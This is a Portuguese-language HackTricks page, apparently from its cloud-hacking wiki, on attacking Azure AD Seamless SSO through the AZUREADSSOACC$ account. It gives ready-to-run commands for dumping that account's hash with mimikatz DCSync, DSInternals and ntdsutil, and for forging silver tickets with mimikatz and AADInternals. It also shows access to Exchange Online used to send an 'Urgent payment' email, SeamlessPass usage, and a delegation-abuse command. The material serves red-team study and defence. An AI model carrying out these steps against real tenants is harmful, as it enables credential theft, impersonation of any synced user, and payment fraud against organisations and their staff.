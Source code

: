 # Az - SSO Sem Costura

{% hint style="success" %}
Aprenda e pratique Hacking AWS:<img src="../../../../.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image.png" alt="" data-size="line">\
Aprenda e pratique Hacking GCP: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Supporte o HackTricks</summary>

* Confira os [**planos de assinatura**](https://github.com/sponsors/carlospolop)!
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga**-nos no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Compartilhe truques de hacking enviando PRs para os repositórios do** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
{% endhint %}

## Informações Básicas

[Dos documentos:](https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/how-to-connect-sso) O Azure Active Directory Seamless Single Sign-On (Azure AD Seamless SSO) **loga automaticamente os usuários quando estão em seus dispositivos corporativos** conectados à sua rede corporativa. Quando ativado, **os usuários não precisam digitar suas senhas para fazer login no Azure AD**, e geralmente, nem mesmo digitar seus nomes de usuário. Este recurso fornece aos seus usuários fácil acesso às suas aplicações baseadas em nuvem sem precisar de componentes adicionais no local.

<figure><img src="../../../../.gitbook/assets/image (275).png" alt=""><figcaption><p><a href="https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/how-to-connect-sso-how-it-works">https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/how-to-connect-sso-how-it-works</a></p></figcaption></figure>

Basicamente, o Azure AD Seamless SSO **loga os usuários** quando estão **em um PC associado ao domínio local**.

É suportado tanto por [**PHS (Sincronização de Hash de Senha)**](phs-password-hash-sync.md) quanto por [**PTA (Autenticação Pass-through)**](pta-pass-through-authentication.md).

O SSO de desktop usa **Kerberos** para autenticação. Quando configurado, o Azure AD Connect cria uma **conta de computador chamada AZUREADSSOACC`$`** no AD local. A senha da conta `AZUREADSSOACC$` é **enviada em texto simples para o Azure AD** durante a configuração.

Os **tickets Kerberos** são **criptografados** usando o **NTHash (MD4)** da senha e o Azure AD usa a senha enviada para descriptografar os tickets.

**Azure AD** expõe um **endpoint** (https://autologon.microsoftazuread-sso.com) que aceita **tickets** Kerberos. O navegador da máquina associada ao domínio encaminha os tickets para este endpoint para SSO.

### Local -> nuvem

A **senha** do usuário **`AZUREADSSOACC$` nunca muda**. Portanto, um administrador de domínio poderia comprometer o **hash desta conta**, e então usá-lo para **criar tickets silver** para se conectar ao Azure com **qualquer usuário local sincronizado**:
```powershell
# Dump hash using mimikatz
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\azureadssoacc$ /domain:domain.local /dc:dc.domain.local"'
mimikatz.exe "lsadump::dcsync /user:AZUREADSSOACC$" exit

# Dump hash using https://github.com/MichaelGrafnetter/DSInternals
Get-ADReplAccount -SamAccountName 'AZUREADSSOACC$' -Domain contoso -Server lon-dc1.contoso.local

# Dump using ntdsutil and DSInternals
## Dump NTDS.dit
ntdsutil "ac i ntds" "ifm” "create full C:\temp" q q
## Extract password
Install-Module DSInternals
Import-Module DSInternals
$key = Get-BootKey -SystemHivePath 'C:\temp\registry\SYSTEM'
(Get-ADDBAccount -SamAccountName 'AZUREADSSOACC$' -DBPath 'C:\temp\Active Directory\ntds.dit' -BootKey $key).NTHash | Format-Hexos
```
Com o hash, você agora pode **gerar tickets silver**:
```powershell
# Get users and SIDs
Get-AzureADUser | Select UserPrincipalName,OnPremisesSecurityIdentifier

# Create a silver ticket to connect to Azure with mimikatz
Invoke-Mimikatz -Command '"kerberos::golden /user:onpremadmin /sid:S-1-5-21-123456789-1234567890-123456789 /id:1105 /domain:domain.local /rc4:<azureadssoacc hash> /target:aadg.windows.net.nsatc.net /service:HTTP /ptt"'
mimikatz.exe "kerberos::golden /user:elrond /sid:S-1-5-21-2121516926-2695913149-3163778339 /id:1234 /domain:contoso.local /rc4:12349e088b2c13d93833d0ce947676dd /target:aadg.windows.net.nsatc.net /service:HTTP /ptt" exit

# Create silver ticket with AADInternal to access Exchange Online
$kerberos=New-AADIntKerberosTicket -SidString "S-1-5-21-854168551-3279074086-2022502410-1104" -Hash "097AB3CBED7B9DD6FE6C992024BC38F4"
$at=Get-AADIntAccessTokenForEXO -KerberosTicket $kerberos -Domain company.com
## Send email
Send-AADIntOutlookMessage -AccessToken $at -Recipient "someone@company.com" -Subject "Urgent payment" -Message "<h1>Urgent!</h1><br>The following bill should be paid asap."
```
Para utilizar o ticket silver, os seguintes passos devem ser executados:

1. **Iniciar o Navegador:** O Mozilla Firefox deve ser iniciado.
2. **Configurar o Navegador:**
* Navegue até **`about:config`**.
* Defina a preferência para [network.negotiate-auth.trusted-uris](https://github.com/mozilla/policy-templates/blob/master/README.md#authentication) para os [valores](https://docs.microsoft.com/en-us/azure/active-directory/connect/active-directory-aadconnect-sso#ensuring-clients-sign-in-automatically) especificados:
* `https://aadg.windows.net.nsatc.net`
* `https://autologon.microsoftazuread-sso.com`
3. **Acessar a Aplicação Web:**
* Visite uma aplicação web que esteja integrada com o domínio AAD da organização. Um exemplo comum é [Office 365](https://portal.office.com/).
4. **Processo de Autenticação:**
* Na tela de login, o nome de usuário deve ser inserido, deixando o campo da senha em branco.
* Para prosseguir, pressione TAB ou ENTER.

{% hint style="success" %}
Isso não contorna o MFA se estiver habilitado
{% endhint %}

#### Opção 2 sem dcsync - SeamlessPass

Também é possível realizar este ataque **sem um ataque dcsync** para ser mais furtivo, como [explicado neste post do blog](https://malcrove.com/seamlesspass-leveraging-kerberos-tickets-to-access-the-cloud/). Para isso, você só precisa de um dos seguintes:

* **Um TGT de usuário comprometido:** Mesmo que você não tenha um, mas o usuário foi comprometido, você pode obter um usando o truque de delegação de TGT falso implementado em muitas ferramentas como [Kekeo](https://x.com/gentilkiwi/status/998219775485661184) e [Rubeus](https://posts.specterops.io/rubeus-now-with-more-kekeo-6f57d91079b9).
* **Golden Ticket**: Se você tiver a chave KRBTGT, pode criar o TGT que precisa para o usuário atacado.
* **Hash NTLM ou chave AES de um usuário comprometido:** O SeamlessPass se comunicará com o controlador de domínio com essas informações para gerar o TGT.
* **Hash NTLM ou chave AES da conta AZUREADSSOACC$:** Com essas informações e o Identificador de Segurança (SID) do usuário a ser atacado, é possível criar um ticket de serviço e autenticar com a nuvem (como realizado no método anterior).

Finalmente, com o TGT, é possível usar a ferramenta [**SeamlessPass**](https://github.com/Malcrove/SeamlessPass) com:

{% code overflow="wrap" %}
```
seamlesspass -tenant corp.com -domain corp.local -dc dc.corp.local -tgt <base64_TGT>
```
{% endcode %}

Mais informações para configurar o Firefox para funcionar com SSO sem interrupções podem ser [**encontradas neste post do blog**](https://malcrove.com/seamlesspass-leveraging-kerberos-tickets-to-access-the-cloud/).

#### ~~Criando tickets Kerberos para usuários somente na nuvem~~ <a href="#creating-kerberos-tickets-for-cloud-only-users" id="creating-kerberos-tickets-for-cloud-only-users"></a>

Se os administradores do Active Directory tiverem acesso ao Azure AD Connect, eles podem **definir SID para qualquer usuário da nuvem**. Dessa forma, os **tickets** Kerberos podem ser **criados também para usuários somente na nuvem**. O único requisito é que o SID seja um [SID](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2003/cc778824\(v=ws.10\)) adequado.

{% hint style="danger" %}
Alterar o SID de usuários administradores somente na nuvem agora está **bloqueado pela Microsoft**.\
Para mais informações, consulte [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/)
{% endhint %}

### On-prem -> Nuvem via Delegação Constrained Baseada em Recurso <a href="#creating-kerberos-tickets-for-cloud-only-users" id="creating-kerberos-tickets-for-cloud-only-users"></a>

Qualquer pessoa que possa gerenciar contas de computador (`AZUREADSSOACC$`) no contêiner ou OU em que essa conta está, pode **configurar uma delegação constrained baseada em recurso sobre a conta e acessá-la**.
```python
python rbdel.py -u <workgroup>\\<user> -p <pass> <ip> azureadssosvc$
```
## Referências

* [https://learn.microsoft.com/pt-br/azure/active-directory/hybrid/how-to-connect-sso](https://learn.microsoft.com/pt-br/azure/active-directory/hybrid/how-to-connect-sso)
* [https://www.dsinternals.com/pt-br/impersonating-office-365-users-mimikatz/](https://www.dsinternals.com/pt-br/impersonating-office-365-users-mimikatz/)
* [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/)
* [TR19: Estou na sua nuvem, lendo os e-mails de todos - hackeando o Azure AD via Active Directory](https://www.youtube.com/watch?v=JEIR5oGCwdg)

{% hint style="success" %}
Aprenda e pratique Hacking AWS:<img src="../../../../.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image.png" alt="" data-size="line">\
Aprenda e pratique Hacking GCP: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Suporte ao HackTricks</summary>

* Confira os [**planos de assinatura**](https://github.com/sponsors/carlospolop)!
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga**-nos no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Compartilhe truques de hacking enviando PRs para o** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositórios do github.

</details>
{% endhint %}
